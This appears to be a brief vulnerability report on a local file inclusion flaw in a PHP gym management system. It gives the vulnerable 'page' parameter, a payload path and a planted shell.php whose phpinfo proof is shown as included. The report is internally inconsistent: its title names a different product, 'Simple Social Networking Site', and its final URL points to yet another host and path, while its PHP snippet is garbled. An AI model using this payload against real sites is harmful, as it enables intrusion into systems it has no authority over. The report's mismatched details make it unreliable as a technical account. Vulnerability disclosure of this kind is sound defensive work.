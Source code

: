 # Simple Social Networking Site v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html

Vulnerability File: ip/gym-management-system/index.php?page=

Vulnerability location: ip/gym-management-system/index.php?page=, page

Payload: ip/gym-management-system/index.php?page=shell
![image](https://user-images.githubusercontent.com/54017627/167055236-73ab971c-99fb-4df9-89b1-e32ec6f5e073.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167055202-9a09bcdc-0dbb-407f-bd09-9b5b4fb3d361.png)

And visit http://sns/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167055186-dba329b1-4698-4459-a0a5-072d1b48944c.png)
